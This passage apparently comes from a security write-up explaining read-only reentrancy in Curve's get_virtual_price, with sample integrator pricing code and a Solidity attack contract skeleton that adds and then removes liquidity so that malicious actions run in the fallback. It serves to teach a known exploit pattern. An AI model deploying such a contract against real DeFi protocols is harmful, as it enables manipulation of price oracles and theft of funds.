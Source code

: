 Important to note is that no reentrancy guard is placed on the function. Hence, it can be called at any time. When called, it first computes `D` based on the current balances held by the contract and according to the stable swap invariant. Remember that `D` represents the total underlying value. Then, it queries the LP token’s total supply and computes the ratio of D and the total supply to provide the exchange rate from LP to the pegged asset. Since the balances and the total supply are inconsistent, D and the total supply will be inconsistent, too, due to D being the result of a computation based on the balances. Note that once the removal of liquidity is finished, the balances will again match the total supply and, thus, the virtual price will drop back to the normal. Ultimately, that breaks the invariant of the virtual price solely increasing.

Protocols integrating with `get_virtual_price` were trusting the return value blindly. Typically, its return value was used to estimate a lower bound for the LP’s value by multiplying it with the lowest exchange rate of the underlying tokens.

```
// sample code
uint256 lowestPrice = type(uint256).max;
for (uint256 i = 0; i < N_COINS; i++) {
    price = oracle.price(pool.coins(i));
    lowestPrice = price < lowestPrice ? price : lowestPrice;
}
value = lowestPrice * pool.get_virtual_price() / 10**18;
``` 

Now that we understand the concepts of the manipulation, we can create an attacking contract. The rough procedure of the attack is:

1. Deposit large amounts of liquidity.
1. Remove liquidity.
1. During the callback perform malicious actions.
1. Profit.

This process can be implemented as a smart contract as below. Note that the snippet implements the weaker but simpler version using `remove_liqudity` instead of `remove_liquidity_imbalance`. For some projects, however, some optimization can be performed.

```
// pool is assumed to be an ETH pool with just one other token (e.g. stETH pool)
function exec(uint amountToken, uint percentRedeem) public payable {
    // prepare token
    token.transferFrom(msg.sender, address(this), amountToken);
    token.approve(address(pool), amountToken);    // add liquidity
    uint[2] memory amounts = [msg.value, amountToken];
    uint lps = pool.add_liquidity{value : msg.value}(amounts, 0);
    uint lps_redeem = lps * percent / 100;    // remove liqudity
    uint[2] memory zeros = [uint(0), 0];
    pool.remove_liquidity(lps_redeem, zeros);    // virtual price dropped
}

fallback() external payable {
    // price of LP is pumped right now
    // malicious actions, use the remaining balance of lps if needed ...
}
```
